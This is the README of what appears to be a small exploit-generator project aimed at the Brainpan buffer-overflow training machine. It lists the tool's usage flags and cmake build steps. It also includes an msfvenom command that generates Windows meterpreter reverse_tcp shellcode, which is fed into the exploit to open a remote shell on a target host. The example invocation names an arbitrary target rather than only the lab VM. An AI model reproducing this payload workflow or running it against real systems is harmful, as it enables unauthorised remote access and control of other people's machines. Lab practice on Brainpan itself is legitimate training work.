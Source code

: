 # Cross Platform Brainpan Shell Generator
I made that for fun, don't ask why i made that now that you know why.

```
USAGE : BrainpanShellGen.exe <-t TARGET> <-p TARGET_PORT> <-o OUTPUT_FILENAME>
    -h OR -? Prints this help menu
    -t <TARGET_HOST> IP Address or Hostname (Local or from DNS) to exploit
    -p <TARGET_PORT> Port where the service run on the target. default:'9999'
    -s <SHELLCODE_PATH> Path to your generated shellcode

Generate Shellcode : msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOURLISTENIP LPORT=YOURLISTENPORT -f c -b \x00\x0a\x0d\xff
Put that shell code as a one liner in a file and give that file as an argument

EXAMPLES : .\BrainpanShellGen.exe -t target.com -p 9999 -s shellcode.txt
```

You can compile the project with cmake using the following commands :
```
cd cmake
cmake .
cmake --build . --config Release
cd Release
.\ShellGen.exe
```

